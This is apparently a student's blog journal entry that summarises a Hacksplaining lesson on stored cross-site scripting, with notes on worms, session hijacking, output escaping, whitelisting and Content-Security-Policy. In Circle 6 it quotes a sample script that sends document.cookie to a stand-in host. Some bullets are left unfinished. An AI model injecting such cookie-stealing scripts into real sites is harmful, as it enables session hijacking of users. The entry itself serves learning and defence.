

# Entry #4: Learning Cross-site Scripting and A Realization  
For this week, I have moved on onto another topic, which is called Cross-site Scripting. While doing so, I came across something that I have realized in terms of the way I have been working on this project. Read more to know what I mean! :)  

##### Some Side Notes: 
If you would like to follow along with what you will read in my entry, click on this link: [Hacksplaining: Cross-site Scripting](https://www.hacksplaining.com/exercises/xss-stored). 

When you click on the link, you will notice that there are circles on the top-left corner. Those circles are like the steps or slides of a presentation. You can click on them to go back and forward.  

  

## Cross-site Scripting 
What is this? Cross-site scripting is method a method that allows users to add to a site’s content, which can possibly lead to injection of malicious JavaScript.  

#### Demonstration 
**_Circle 2_**

If your website has the ability to facilitate discussions between users commenting, then those conversations/comments need to be saved to a database to show yourself and others users.  

**_Circle 3_** 

As the popularity of your site increases, attackers get more and more attracted. 

**_Circle 4_**

By being careful with HTML, it can prevent hackers from abusing the comment section through the usage of malicious JavaScript (example).   

**_Circle 5_**

Mal (the hacker) tries to mess with me (user) by using this: ```<script>alert('Your croissants are limp and sad.')</script>```. This leads to a message popping up in the user’s laptop/computer, which only user gets to see.  

**_Circle 6_**

From having a real attack, a person’s cookies could be stolen, allowing the hackers to have a period of time to hijack.  

Code used for this sections: ```<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>```
* ```<script> </script>```: Script tags 
* 

**_Circle 7_**
Making a comment be liked by fake people → ```<script>upvote()</script>```     

### Signs of Danger   
The level of damage can vary depending on the sensitivity that your data has.  

#### Ways To Attack: 
* Spreading [worms](https://www.hacksplaining.com/glossary/worms) on social media sites. 
    * Worm → malicious program that can multiply itself and can leak into other systems. User can be a victim to this if mistakenly downloaded or executed some thing that was thought to be something else.   
    * [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)) (computer worms) a.k.a JS.Spacehero, created by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar)    
        * Fastest virus spread of all time (in MySpace) → 1,000,000+ ran the [payload](https://en.wikipedia.org/wiki/Payload_(computing))  
        * User looks at an infected profile page → payload gets copied + injected into the other user’s profile page 
        * Happened to known social media websites → Facebook, Twitter, and YouTube  
* Hijacking (stealing something while it is in action) a session 
    * Hacker uses JavaScript → have the session ID sent to a site that is under his/her control + pretend to be the user.  
* Theft 
    * Identity theft → Entering confidential info into a website that has been messed with → details can be stolen through JavaScript 
    * Stealing sensitive data (ex: passwords) 
    * Financial fraud on banking websites 
* Denial of Service Attacks ([DOS attack](https://www.hacksplaining.com/glossary/denial-of-service-attacks)) and  website vandalism 
    * Goal of attack: Flood a website service/website → making it unavailable 
    Online application have “limited bandwidth” → will be made unavailable if there is a bunch of dangerous “traffic” → involves many different fake IP addresses → “making them much harder to defeat”   
    * Solution → “properly configured firewall”  
    * Other resources: 
        * [Denial of Service Attacks](https://www.hacksplaining.com/exercises/denial-of-service-attacks) (lesson from Hacksplaining)  
        * [How to stop a DDOS attack](https://blog.fastmail.com/2015/12/08/how-to-stop-a-ddos-attack/)     

#### Protection
**_Dynamic Content_**    
* Web pages → HTML + dynamic content sewn in 
* [Stored XSS attacks](https://www.google.com/search?q=Stored+XSS+attacks&oq=Stored+XSS+attacks&aqs=chrome..69i57&sourceid=chrome&ie=UTF-8) → dynamic content is not set up well from the “backend data store” 
* Attacker → uses the advantage of “editable field” → inputting JavaScript code → executed  
* If your site is not one where you manage content → it is rare for you to have your users use raw HTML 
* “ coming from a data store” → so that the browser knows that it should be labeled as the contents of HTML, and not raw HTML 
    * “coming from a data store” → that is connected to your 
* Escape all dynamic content by replacing significant characters with HTML ones 

Significant Characters | HTML “Characters”
-----------------------|------------------------
          “            |       &#34
      Octothorp(#)     |       &#35
          &            |       &#38
          ‘            |       &#39
          (            |       &#40
          )            |       &#41
          /            |       &#47
          ;            |       &#59
          <            |       &#60
      Greater sign (>) |       &#62

* “Most modern framework will escape dynamic content by default” 
* Escaping editable content → make the browser never look at the code as executable → closes the chances of XSS attacks  

**_Whitelist Values_**  
* Condition → a certain dynamic data item can only handle a “handful” of valid values → try to limit the values in the “data store” + have your logic-checker only allow good values that are known of already 
* Their example → instead of asking for a person to type in the country that he/she lives in, ask him/ her to pick it from a drop-down list 

**_Content-Security Policy_** 
* Modern browsers support content-security policies → permits the programmer of a webpage to have say in where JavaScript and other sources be shown 
* XSS attacks → from hackers/attackers using malicious scripts on a website → by using script tags in HTML tags or “trick the browser into loading the JavaScript from a malicious third-party domain”. 
* Putting a content security policy in the “response header” → tells browse to never run “inline JavaScript” + (“lock down”/) make note of which domains can run JavaScript 
    * ```Content-Security-Policy: script-src 'self' https://apis.google.com```      
* Content security policy can be set in 

### Realization/Next Steps 
While I have been learning, I have been using only one website so far, which is [Hacksplaining](https://www.hacksplaining.com/lessons). With every lesson that I go through, I try to take note of everything, which takes a long time because it seems like every topic has a lot to it already. In order to progress faster, a method that I try to use would be the following: whenever I start a new topic, just read through it first. After doing so, I should decide how extensive my note should be on this particular topic. 


